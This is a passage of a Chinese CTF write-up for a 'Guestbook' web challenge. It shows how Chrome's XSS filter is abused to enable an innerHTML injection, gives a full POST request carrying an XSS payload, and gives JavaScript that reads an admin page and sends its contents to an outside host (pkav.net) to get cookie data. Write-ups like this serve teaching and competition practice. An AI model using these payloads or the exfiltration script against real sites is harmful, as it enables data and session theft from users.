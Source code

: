 首先我们随便提交一个message，看了下输出的HTML：

![p8](http://drops.javaweb.org/uploads/images/5de81c8f66f0bb5aa3d0998240fe1828109d3630.jpg)

username写在div的id属性中，message写在JavaScript的data变量中，测试了几次后发现message里的`\\`会变成`\`，可以构造成任意字符。secret在URL的GET参数里。

那么如果我们的secret包含`<script>var debug=false;</script>`，Chrome的XSS filter会认为HTML出现的`<script>var debug=false;</script>`是反射XSS的输出，把他给屏蔽掉无法执行。debug变量会引用到一个标签上去，把username写成debug则`if(debug)`就会为true，执行`t.innerHTML = data`，从而实现XSS。

POST数据包：

```
POST /message.php HTTP/1.1
Host: 202.120.7.201:8888
Content-Length: 832
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://202.120.7.201:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://202.120.7.201:8888/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4

secret=1z1zfqwq%3Cscript%3Evar+debug%3Dfalse%3B%3C%2Fscript%3E&username=debug&message=\\x3cimg+src%3d%23+id%3dxssyou+style%3ddisplay%3anone+onerror%3deval(unescape(/alert%25281%2529/.source))%3b//\\x3e&action=submit

```

![p9](http://drops.javaweb.org/uploads/images/b33ae455877973e7ccb1a8999b13ccb4e27db5b1.jpg)

写了几行JS来读取当前页面HTML，

得到：

![p10](http://drops.javaweb.org/uploads/images/e0b2d715ed3bacf4319795cc404a649d79f062d7.jpg)

读取/admin/server_info.php：

```
xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","/admin/server_info.php ",false);xmlhttp.send();r=xmlhttp.responseText;xmlhttp.responseText;xmlhttp.open("POST","http://pkav.net/1.php",false);xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");xmlhttp.send("d="+escape(r));

```

发现是一个PHP探针，带了一个phpinfo，phpinfo中会回显出整个`$_COOKIE`数组，得到flag

![p11](http://drops.javaweb.org/uploads/images/4b649444702c544fbe935acb6c5ba875d0eb3633.jpg)

0x04 Guestbook(2) (web)
=====
